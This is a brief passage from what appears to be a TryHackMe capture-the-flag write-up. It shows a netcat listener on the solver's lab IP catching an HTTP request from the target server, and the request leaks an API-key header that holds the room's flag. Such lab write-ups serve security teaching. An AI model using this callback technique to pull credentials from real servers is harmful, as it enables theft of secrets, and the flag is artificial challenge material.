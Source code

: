 here's what we get on the terminal
```bash
$ nc -lvnp 8087
listening on [any] 8087 ...
connect to [10.17.97.222] from (UNKNOWN) [10.10.27.153] 49504
GET /public-docs-k057230990384293/75482342.pdf HTTP/1.1
Host: 10.17.97.222:8087
User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
Accept: */*
X-API-KEY: THM{Hello_Im_just_an_API_key}
```

**FLAG - `THM{Hello_Im_just_an_API_key}`**

///lastoneowasp




